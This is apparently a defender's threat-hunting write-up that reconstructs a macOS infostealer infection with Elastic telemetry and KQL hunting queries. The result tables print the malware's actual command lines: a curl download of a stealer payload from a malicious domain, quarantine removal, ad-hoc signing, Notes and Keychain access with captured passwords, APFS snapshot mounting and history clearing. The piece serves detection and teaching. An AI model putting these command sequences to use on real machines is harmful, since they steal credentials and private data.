Looking back at the investigation, the most useful part was not any single indicator.

It was the relationships.

The first `curl` was interesting, but it was only the starting point.

The PPID pivot exposed:

```text
curl
→ unzip
→ mv
→ xattr
→ chmod
→ codesign
→ nohup
```

Following the actual payload then exposed:

```text
pgrep
→ whoami
→ dscl
→ sudo
→ security
→ system_profiler
→ ioreg
→ Notes access
→ tmutil
→ mount_apfs
→ ditto
→ launchctl
```

File events added another view:

```text
login.keychain-db
→ browser-related state
→ random staging directory
→ collected password and system artifacts
→ archive creation
→ cleanup
```

A lot of these utilities are completely normal on macOS. The malware was simply abusing legitimate system tools to carry out its actions. If you want to learn more about macOS Living off the Land techniques, [LOOBins](https://loobins.io/) is a useful reference. What made the activity suspicious was the context around those tools. A hidden executable under `/tmp` became the common parent for several commands within a very short period of time, including `security`, `system_profiler`, `ioreg`, `tmutil`, `mount_apfs`, `ditto`, and `launchctl`.

Another useful lesson was that a negative search result did not always mean the behaviowr was absent. For example, I found no useful child process directly under the original `curl` PID, but pivoting to the shared parent PID exposed the rest of the bootstrap activity.

I also found no `osascript` process even though a fake password prompt clearly appeared. Jamf's analysis later explained why: the prompt was created using a native AppKit `NSAlert`, so there was no separate AppleScript process for Elastic to capture. The same limitation appeared during exfiltration. I could see the collection directory being archived, but I could not independently confirm the final `/send/` upload because the available endpoint telemetry did not expose the HTTP request path.

That is fairly normal in threat hunting. The process tree will not always look exactly how you expect, and the telemetry will not always contain the field or event needed to prove every step of the chain.

## Hunting and detection ideas

## Behavior Hunting: Rediscovering Amnesia Without the PID

The investigation above relied heavily on PID and PPID relationships to reconstruct Amnesia's activity. That works well once a suspicious process has been identified, but I also wanted to see how much of the same activity could be found without knowing the malware PID beforehand.

The following hunts were derived from behaviors observed during the investigation. They are intended as hunting starting points rather than production-ready detections. In a real environment, most would require baselining and tuning.

---

### Downloading Archives Into `/tmp`

The Amnesia bootstrap used `curl` to retrieve a ZIP archive and write it directly into `/tmp` using a hidden filename.

**Hunting hypothesis:** Command-line downloads of archives directly into temporary directories may indicate payload staging.

```kql
event.category : "process" and process.executable : "/usr/bin/curl" and process.command_line : */tmp/* and process.command_line : *.zip*
```

#### Result

| @timestamp | process.executable | process.command_line | process.parent.command_line |
|---|---|---|---|
| Aug 17, 2026 @ 06:49:35.400 | `/usr/bin/curl` | `curl -sL https://debug.allllowef.space/otherassets/macos-hybrid-stealer.zip?t=2def3c01135&b=se -o /tmp/._77002.zip` | `bash` |
| Aug 17, 2026 @ 06:49:44.928 | `/usr/bin/curl` | `curl -sL https://debug.allllowef.space/otherassets/macos-hybrid-stealer.zip?t=2def3c01135&b=se -o /tmp/._77002.zip` | `bash` |

Both events show the same behavior: `curl` downloading a ZIP archive into the hidden path `/tmp/._77002.zip`.

This is not malicious by itself. Installers and automation scripts commonly use `curl`. Hidden output paths, unusual external domains, shell parents and subsequent execution make the activity more interesting.

Flag combinations such as `-fsSL` or `-fskL` may also appear in malware and adware installers, but should be treated as supporting context rather than indicators on their own.

---

### Hidden Files Under Temporary Directories

The bootstrap also created dot-prefixed artifacts such as:

```text
/tmp/._77002.zip
/tmp/.com.apple.dt.77002
```

Rather than restricting the hunt to ZIP files, we can look more broadly for hidden files beneath temporary directories.

**Hunting hypothesis:** Hidden files created or modified beneath temporary directories may reveal payload staging, preparation or cleanup.

```kql
event.category : "file" and file.path : */tmp/.*
```

#### Result

| @timestamp | process.executable | file.path | event.action | event.type |
|---|---|---|---|---|
| Aug 17, 2026 @ 06:49:33.047 | `/System/Library/CoreServices/Spotlight.app/Contents/MacOS/Spotlight` | `/Users/jason/Library/Biome/tmp/.tmp.GC5D0Wik` | `modification` | `change` |
| Aug 17, 2026 @ 06:49:44.925 | `/usr/bin/curl` | `/private/tmp/._77002.zip` | `modification` | `change` |
| Aug 17, 2026 @ 06:49:45.404 | `/bin/mv` | `/private/tmp/.com.apple.dt.77002` | `rename` | `change` |
| Aug 17, 2026 @ 06:49:45.581 | `/bin/rm` | `/private/tmp/._77002.zip` | `deletion` | `deletion` |
| Aug 17, 2026 @ 06:49:45.830 | `/usr/bin/codesign` | `/private/tmp/.com.apple.dt.77002.cstemp` | `modification` | `change` |
| Aug 17, 2026 @ 06:49:45.838 | `/usr/bin/codesign` | `/private/tmp/.com.apple.dt.77002` | `rename` | `change` |
| Aug 17, 2026 @ 06:49:47.885 | `/bin/rm` | `/private/tmp/.com.apple.dt.77002` | `deletion` | `deletion` |

This hunt also returned legitimate Spotlight/Biome activity, which is useful when considering how the query would need to be baselined in a production environment.

The Amnesia events form a much more interesting lifecycle:

```text
download
    ↓
hidden temporary file
    ↓
rename
    ↓
code-signing activity
    ↓
deletion
```

A hidden file alone is weak evidence. Multiple related operations against the same object within seconds are much more useful.

---

### Quarantine and Extended Attribute Manipulation

Amnesia used `xattr` against the staged payload:

```text
xattr -cr /tmp/.com.apple.dt.77002
xattr -d com.apple.quarantine /tmp/.com.apple.dt.77002
```

`xattr -cr` recursively clears extended attributes, while the second command explicitly deletes `com.apple.quarantine`.

**Hunting hypothesis:** Unexpected clearing of extended attributes or removal of `com.apple.quarantine` from recently downloaded files may indicate attempts to interfere with the normal macOS quarantine and Gatekeeper assessment path.

```kql
event.category : "process" and process.executable : "/usr/bin/xattr" and (process.command_line : *-cr* or process.command_line : *com.apple.quarantine*)
```

#### Result

| @timestamp | process.executable | event.action | process.command_line | process.parent.command_line |
|---|---|---|---|---|
| Aug 17, 2026 @ 06:49:45.594 | `/usr/bin/xattr` | `[fork, exec, end]` | `xattr -cr /tmp/.com.apple.dt.77002` | `bash` |
| Aug 17, 2026 @ 06:51:22.052 | `/usr/bin/xattr` | `[fork, exec, end]` | `xattr -d com.apple.quarantine /tmp/.com.apple.dt.77002` | `/tmp/.com.apple.dt.77002` |

The second event is particularly interesting because the staged payload itself becomes the parent of the command deleting its quarantine attribute.

`xattr` is commonly used by developers and administrators. The target path, parent process and surrounding download/execution activity are therefore important when triaging results.

---

### Ad-Hoc Code Signing

The staged payload was forcibly and recursively ad-hoc signed:

```text
codesign --force --deep --sign - /tmp/.com.apple.dt.77002
```

**Hunting hypothesis:** Ad-hoc signing of newly created objects beneath temporary or user-writable locations may indicate payload preparation.

```kql
event.category : "process" and process.executable : "/usr/bin/codesign" and process.command_line : *--force* and process.command_line : *--deep* and process.command_line : *--sign*
```

#### Result

| @timestamp | process.executable | event.action | process.command_line | process.parent.command_line |
|---|---|---|---|---|
| Aug 17, 2026 @ 06:49:45.751 | `/usr/bin/codesign` | `[fork, exec, end]` | `codesign --force --deep --sign - /tmp/.com.apple.dt.77002` | `bash` |

The `--sign -` argument performs ad-hoc signing. It does not make the application notarized or trusted by Gatekeeper.

Development systems and CI/CD environments may generate significant `codesign` activity. Here, the interesting context is that a hidden object beneath `/tmp` was downloaded, had its extended attributes manipulated and was then ad-hoc signed.

---

### Cleanup and Anti-Forensics

Amnesia removed several temporary artifacts after they were no longer required and also attempted to clear shell history.

**Hunting hypothesis:** Forced deletion of hidden temporary files or attempts to clear shell history may indicate payload cleanup or anti-forensic activity.

```kql
event.category : "process" and (((process.executable : "/bin/rm") and process.command_line : *-f* and (process.command_line : */tmp/.* or process.command_line : */private/tmp/.*)) or process.command_line : *history -c*)
```

#### Result

| @timestamp | process.executable | event.action | process.command_line | process.parent.command_line |
|---|---|---|---|---|
| Aug 17, 2026 @ 06:49:45.406 | `/bin/rm` | `[fork, exec, end]` | `rm -f /tmp/._77002.zip` | `bash` |
| Aug 17, 2026 @ 06:49:47.877 | `/bin/rm` | `[fork, exec, end]` | `rm -f /tmp/.com.apple.dt.77002` | `bash` |
| Aug 17, 2026 @ 06:51:22.014 | `/bin/sh` | `[fork, exec]` | `sh -c history -c 2>/dev/null; true` | `/tmp/.com.apple.dt.77002` |
| Aug 17, 2026 @ 06:51:22.014 | `/bin/bash` | `[exec, end]` | `sh -c history -c 2>/dev/null; true` | `/tmp/.com.apple.dt.77002` |

`rm -f` and output redirection to `/dev/null` are extremely common. The stronger signal is the surrounding context: a temporary payload deleting recently created artifacts and spawning a shell to attempt history cleanup.

The `history -c` event shows an apparent cleanup attempt, but does not prove that the user's persistent shell-history file was successfully erased.

---

### Apple Notes Collection and Staging

Amnesia targeted the Apple Notes SQLite database and its associated WAL and SHM files.

**Hunting hypothesis:** Unexpected command-line utilities reading Apple Notes databases may indicate collection of locally stored Notes data.

```kql
event.category : "process" and (process.executable : "/bin/cp" or process.executable : "/bin/cat") and (process.command_line : *group.com.apple.notes* or process.command_line : *NoteStore.sqlite*)
```

#### Process Result

| @timestamp | process.executable | event.action | process.command_line | process.parent.command_line |
|---|---|---|---|---|
| Aug 17, 2026 @ 06:50:31.652 | `/bin/cat` | `[fork, exec, end]` | `cat /Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite` | `sh -c cat '/Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite' 2>/dev/null` |
| Aug 17, 2026 @ 06:50:31.921 | `/bin/cat` | `[fork, exec, end]` | `cat /Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite` | `sudo -S cat /Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite` |
| Aug 17, 2026 @ 06:50:31.962 | `/bin/cat` | `[fork, exec, end]` | `cat /Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-shm` | `sh -c cat '/Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-shm' 2>/dev/null` |
| Aug 17, 2026 @ 06:50:32.019 | `/bin/cat` | `[fork, exec, end]` | `cat /Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-shm` | `sudo -S cat /Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-shm` |
| Aug 17, 2026 @ 06:50:32.084 | `/bin/cat` | `[fork, exec, end]` | `cat /Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-wal` | `sh -c cat '/Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-wal' 2>/dev/null` |
| Aug 17, 2026 @ 06:50:32.116 | `/bin/cat` | `[fork, exec, end]` | `cat /Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-wal` | `sudo -S cat /Users/jason/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-wal` |

The hunt shows all three SQLite components being read. The WAL file is particularly relevant because recent database changes may not yet exist only in the primary SQLite database.

A follow-up file hunt looked for related Notes artifacts:

```kql
event.category : "file" and file.path : *NoteStore*
```

#### File Result

| @timestamp | event.type | process.executable | process.parent.pid | process.pid | file.path |
|---|---|---|---:|---:|---|
| Aug 17, 2026 @ 06:50:31.948 | `deletion` | `/private/tmp/.com.apple.dt.77002` | `14486` | `14499` | `/private/tmp/_notes_tmp_NoteStore.sqlite` |
| Aug 17, 2026 @ 06:50:32.077 | `deletion` | `/private/tmp/.com.apple.dt.77002` | `14486` | `14499` | `/private/tmp/_notes_tmp_NoteStore.sqlite-shm` |
| Aug 17, 2026 @ 06:50:32.131 | `deletion` | `/private/tmp/.com.apple.dt.77002` | `14486` | `14499` | `/private/tmp/_notes_tmp_NoteStore.sqlite-wal` |

The file telemetry did not provide the original read/open event against the Notes database, but it independently exposed temporary staged copies being deleted.

Together, the two telemetry sources give us:

```text
Notes database read
    ↓
SQLite + WAL + SHM collection
    ↓
temporary staging
    ↓
cleanup
```

---

### Host and System Discovery

Amnesia profiles the infected Mac using native utilities such as `ioreg`, `sw_vers` and `system_profiler`.

**Hunting hypothesis:** Rapid execution of several native macOS discovery utilities under the same unusual parent may indicate automated host profiling.

```kql
event.category : "process" and (process.executable : "/usr/sbin/ioreg" or process.executable : "/usr/bin/sw_vers" or process.executable : "/usr/sbin/system_profiler" or (((process.executable : "/bin/sh" or process.executable : "/bin/bash" or process.executable : "/bin/zsh")) and (process.command_line : *ioreg* or process.command_line : *sw_vers* or process.command_line : *system_profiler*)))
```

#### Result

The hunt returned activity for `ioreg`, `sw_vers` and `system_profiler` within the same discovery window.

One of the visible `system_profiler` events was:

| @timestamp | process.executable | event.action | process.command_line | process.parent.command_line |
|---|---|---|---|---|
| Aug 17, 2026 @ 06:49:58.631 | `/usr/sbin/system_profiler` | `[fork, exec, end]` | `/usr/sbin/system_profiler -nospawn -xml SPSoftwareDataType -detailLevel full` | `system_profiler SPSoftwareDataType SPHardwareDataType SPDisplaysDataType` |

These utilities are normal on macOS. The more useful signal is several discovery commands appearing within seconds under the same unexpected execution chain.

MDM platforms, inventory agents, troubleshooting tools and administrative scripts are likely sources of legitimate noise.

---

### Password Validation With `dscl`

Amnesia prompted the user for their login password and then validated the supplied credential locally using `dscl`.

A related hunt for AppleScript-based credential prompts was also tested:

```kql
event.category : "process" and process.executable : "/usr/bin/osascript" and process.command_line : *display dialog*
```

**Result: No matching events.**

This does not mean no credential prompt occurred. In this execution, Amnesia used a native prompt rather than spawning `osascript`.

The follow-up credential-validation behavior was visible:

**Hunting hypothesis:** Unexpected use of `dscl -authonly` may indicate programmatic validation of a captured local password.

```kql
event.category : "process" and process.executable : "/usr/bin/dscl" and process.command_line : *authonly*
```

#### Result

| @timestamp | process.executable | event.action | process.command_line | process.parent.command_line |
|---|---|---|---|---|
| Aug 17, 2026 @ 06:49:52.592 | `/usr/bin/dscl` | `[exec, end]` | `dscl /Local/Default -authonly jason <redacted>` | `/tmp/.com.apple.dt.77002` |

The supplied password appeared directly inside process command-line telemetry and has therefore been redacted.

Unexpected applications using `dscl -authonly`, especially when the parent originates from a temporary location, are worth investigating.

---

### Keychain Unlocking and Direct Access

After obtaining and validating the password, Amnesia attempted to unlock the user's login Keychain.

**Hunting hypothesis:** Unexpected use of `security unlock-keychain`, particularly with a password passed through `-p`, may indicate programmatic credential access.

```kql
event.category : "process" and process.executable : "/usr/bin/security" and process.command_line : *unlock-keychain*
```

#### Result

| @timestamp | process.executable | event.action | process.command_line | process.parent.command_line |
|---|---|---|---|---|
| Aug 17, 2026 @ 06:51:17.419 | `/usr/bin/security` | `[fork, exec, end]` | `security unlock-keychain -p <redacted> /Users/jason/Library/Keychains/login.keychain-db` | `/tmp/.com.apple.dt.77002` |

Again, the supplied password was visible in the process command line and has been redacted.

The next hunt looked for processes other than `/usr/bin/security` directly accessing the login Keychain database:

```kql
event.category : "file" and file.path : *login.keychain* and event.type : "access" and not process.executable : "/usr/bin/security"
```

#### Direct Keychain Access

The hunt returned 25 access events. The first visible events were:

| @timestamp | event.type | process.executable | process.parent.pid | process.pid | file.path |
|---|---|---|---:|---:|---|
| Aug 17, 2026 @ 06:49:53.122 | `access` | `/private/tmp/.com.apple.dt.77002` | `14486` | `14499` | `/Users/jason/Library/Keychains/login.keychain-db` |
| Aug 17, 2026 @ 06:49:53.427 | `access` | `/private/tmp/.com.apple.dt.77002` | `14486` | `14499` | `/Users/jason/Library/Keychains/login.keychain-db` |
| Aug 17, 2026 @ 06:49:53.728 | `access` | `/private/tmp/.com.apple.dt.77002` | `14486` | `14499` | `/Users/jason/Library/Keychains/login.keychain-db` |
| Aug 17, 2026 @ 06:49:54.035 | `access` | `/private/tmp/.com.apple.dt.77002` | `14486` | `14499` | `/Users/jason/Library/Keychains/login.keychain-db` |
| Aug 17, 2026 @ 06:49:54.336 | `access` | `/private/tmp/.com.apple.dt.77002` | `14486` | `14499` | `/Users/jason/Library/Keychains/login.keychain-db` |
| Aug 17, 2026 @ 06:49:54.642 | `access` | `/private/tmp/.com.apple.dt.77002` | `14486` | `14499` | `/Users/jason/Library/Keychains/login.keychain-db` |

This gives us a useful behavioral chain:

```text
password captured
    ↓
dscl -authonly
    ↓
security unlock-keychain
    ↓
direct login.keychain-db access
```

Direct Keychain access can occur legitimately through password managers, migration tools and forensic software. The unusual temporary executable and surrounding credential activity make this sequence more significant.

---

### Chromium Database Access

Chromium-based browsers maintain valuable databases and configuration files such as:

```text
Login Data
Cookies
History
Web Data
Local State
```

**Hunting hypothesis:** Unexpected processes accessing multiple Chromium profile databases may indicate credential, cookie or browser-session collection.

```kql
event.category : "file" and event.type : "access" and (file.path : *Login\ Data* or file.path : *Cookies* or file.path : *History* or file.path : *Web\ Data* or file.path : *Local\ State*) and not process.executable : "/System/Volumes/Preboot/Cryptexes/Incoming/OS/System/Library/Frameworks/WebKit.framework/Versions/A/XPCServices/com.apple.WebKit.Networking.xpc/Contents/MacOS/com.apple.WebKit.Networking"
```

The WebKit Networking process above generated legitimate access noise during testing and was excluded.

In a real environment, additional baselining would likely be needed for legitimate browsers, browser helpers, backup products and security tooling.

One access to `History` or `Cookies` is not necessarily meaningful. Multiple browser databases accessed rapidly by the same unusual process are much more interesting, particularly when followed by staging or archive creation.

---

### Archive Creation With `ditto`

After collecting data, Amnesia used the native `ditto` utility to create a PKZip archive.

**Hunting hypothesis:** Archive creation using `ditto` shortly after collection activity may indicate staging for exfiltration.

```kql
event.category : "process" and process.executable : "/usr/bin/ditto" and process.command_line : *-c* and process.command_line : *-k*
```

#### Result

| @timestamp | process.executable | event.action | process.command_line | process.parent.command_line | process.pid | process.parent.pid |
|---|---|---|---|---|---:|---:|
| Aug 17, 2026 @ 06:51:17.954 | `/usr/bin/ditto` | `[fork, exec, end]` | `ditto -c -k --sequesterRsrc /tmp/.com.apple.dt.77002 /tmp/dUvV2FVcZkOrcH80s4nOdw2fL ...` | `/tmp/.com.apple.dt.77002` | `14710` | `14499` |

The Amnesia payload itself is the parent of `ditto`.

`ditto` is widely used legitimately on macOS. The useful context here is the sequence of data collection, temporary staging and archive creation.

---

### LaunchDaemon Persistence

Amnesia also attempted persistence using a LaunchDaemon.

**Hunting hypothesis:** Unexpected creation of property lists under `/Library/LaunchDaemons` may indicate persistence, particularly when written by processes outside normal installers or management tooling.

```kql
event.category : "file" and file.path : /Library/LaunchDaemons/*.plist
```

LaunchDaemons are widely used by legitimate software, security products and MDM tooling.

For any result, the important pivots are:

- process responsible for creating the plist
- `Program` or `ProgramArguments`
- executable location
- ownership and permissions
- related `launchctl` activity
- whether the referenced executable resides in a temporary or user-writable location

The earlier investigation established the Amnesia-related LaunchDaemon activity, but no separate result table was captured during this behavioral-hunting pass.

---

### APFS Snapshot Mounting

The malware also attempted a TCC bypass by mounting an APFS local snapshot.

**Hunting hypothesis:** Unexpected APFS snapshot mounting may indicate attempts to reach protected data through an alternate filesystem view.

```kql
event.category : "process" and process.executable : "/System/Library/Filesystems/apfs.fs/Contents/Resources/mount_apfs" and process.command_line : *-s*
```

#### Result

| @timestamp | process.executable | event.action | process.command_line | process.parent.command_line | process.pid | process.parent.pid |
|---|---|---|---|---|---:|---:|
| Aug 17, 2026 @ 06:50:38.837 | `/System/Library/Filesystems/apfs.fs/Contents/Resources/mount_apfs` | `[fork, exec, end]` | `mount_apfs -o nobrowse -s com.apple.TimeMachine.2026-08-17-065038.local ...` | `sudo -S mount_apfs -o nobrowse -s com.apple.TimeMachine.2026...` | `14622` | `14621` |
| Aug 17, 2026 @ 06:51:14.227 | `/System/Library/Filesystems/apfs.fs/Contents/Resources/mount_apfs` | `[fork, exec, end]` | `mount_apfs -o nobrowse -s com.apple.TimeMachine.2026-08-17-065112.local ...` | `sudo -S mount_apfs -o nobrowse -s com.apple.TimeMachine.2026...` | `14682` | `14681` |

The `...` values above reflect where the Kibana view itself truncated the command line.

Snapshot mounting is not malicious by itself. The suspicious context would be an unexpected process creating or mounting snapshots and subsequently accessing protected browser or user data.

In this execution, the attempted technique did not establish a successful TCC bypass on macOS 26.

---

### Hunts That Returned No Results

Not every useful hunting hypothesis should return a malicious event.

Several additional behaviors were tested against the dataset.

#### System Audio Muting

Some macOS stealers have used AppleScript to mute system audio before performing other activity.

```kql
event.category : "process" and process.executable : "/usr/bin/osascript" and process.command_line : *set volume with output muted*
```

**Result: No matching events.**

---

#### Telegram `tdata` Collection

Telegram Desktop data can be valuable to information stealers.

```kql
event.category : "process" and (process.executable : "/bin/cp" or process.executable : "/bin/cat") and process.command_line : *tdata*
```

**Result: No matching events.**

This only tests for collection through external utilities such as `cp` or `cat`. Direct file access by the malware itself would not necessarily appear in this query.

---

#### AppleScript Credential Prompt

A common macOS malware technique is to generate fake system-style credential dialogs through AppleScript.

```kql
event.category : "process" and process.executable : "/usr/bin/osascript" and process.command_line : *display dialog*
```

**Result: No matching events.**

Amnesia used a native password prompt in this execution instead, demonstrating why the absence of a particular utility does not prove that the broader behavior did not occur.

---

#### Headless Chromium Session Control

The stream functionality described for Amnesia can clone a browser profile and launch Chromium headlessly for remote session control.

A useful behavioral starting point is to look for browsers enabling both headless execution and Chrome DevTools Protocol access:

```kql
event.category : "process" and process.command_line : *--headless* and process.command_line : *--remote-debugging-port*
```

**Result: No matching events.**

A stronger hit would include additional context such as a custom `--user-data-dir`, a hidden profile directory or an unusual parent process.

---

### Takeaway

The first half of the investigation asked:

> **I found something suspicious. What did this process do?**

PID and PPID pivots were extremely effective for answering that question.

These hunts start from the opposite direction:

> **I do not know which process is malicious yet. Which behaviors are worth investigating?**

Several of the queries independently rediscovered the same Amnesia activity:

- hidden payload staging under `/tmp`
- quarantine manipulation
- ad-hoc code signing
- host discovery
- Apple Notes collection
- password validation
- Keychain unlocking and direct access
- archive creation
- cleanup
- APFS snapshot mounting

Other hunts returned legitimate noise or no results at all.

That is expected.

Utilities such as `curl`, `xattr`, `codesign`, `dscl`, `security`, `ditto`, `system_profiler` and `mount_apfs` are not malicious by themselves.

The useful signal comes from the combination of **who executed the command, where the parent process came from, what files were targeted, how quickly the events occurred and what happened immediately before and after**.

| Approach | Best Used For |
|---|---|
| PID / PPID investigation | Reconstructing activity once something suspicious has already been identified |
| Behavioral hunting | Finding suspicious activity without already knowing which process is malicious |

Using both approaches against the same telemetry allowed the infection to be reconstructed while also producing hunting ideas that can be reused against other macOS stealers.

### Takeaway

The initial investigation asked:

> **I found something suspicious. What did this process do?**

PID and PPID pivots were extremely effective for answering that question.

The behavioral hunts ask something different:

> **I do not know which process is malicious yet. Which behaviors are worth investigating?**

Several of these hunts independently surfaced the same Amnesia activity: quarantine manipulation, ad-hoc signing, Apple Notes collection, password validation, Keychain access, host discovery, archive creation and temporary-file cleanup.

Others returned legitimate noise or no results.

That is expected. Individual macOS utilities such as `curl`, `xattr`, `codesign`, `dscl`, `security`, `ditto` and `system_profiler` are not malicious. The useful signal comes from **who executed them, where the process originated, what it targeted, when it happened and what occurred immediately before and after**.

Using both approaches gives us two complementary workflows:

| Approach | Best Used For |
|---|---|
| PID / PPID investigation | Reconstructing activity after something suspicious is already known |
| Behavioral hunting | Finding suspicious activity without already knowing the malware process |

The malware family can change. The behaviors often remain useful.

### Using these as hunts rather than standalone detections

I would not turn every query above directly into an alert. Most of them are better starting points for investigation. The strongest signals come from combining multiple behaviors:

```text
temporary executable
        ↓
native utility abuse
        ↓
credential or user-data access
        ↓
staging / archive creation
        ↓
network activity or persistence
```

That combination is much harder to explain as normal enterprise activity than any single `curl`, `xattr`, `security`, `tmutil` or `launchctl` event.

That felt much closer to how I actually hunt. Sometimes the first pivot gives you nothing. Sometimes a command looks harmless until you inspect its parent. Sometimes the process telemetry is incomplete, but a surviving file artifact gives you the missing context. And sometimes the EDR shows almost the entire chain but still cannot prove one final step, such as the HTTP upload in this case. The useful part was not finding one obviously malicious command. It was gradually building enough context around otherwise normal-looking activity to understand what the process was really doing. 

For campaign-specific indicators and additional malware analysis, refer to the original [Jamf Threat Labs research](https://www.jamf.com/blog/amnesia-stealer-macos-infostealer-clickfix/).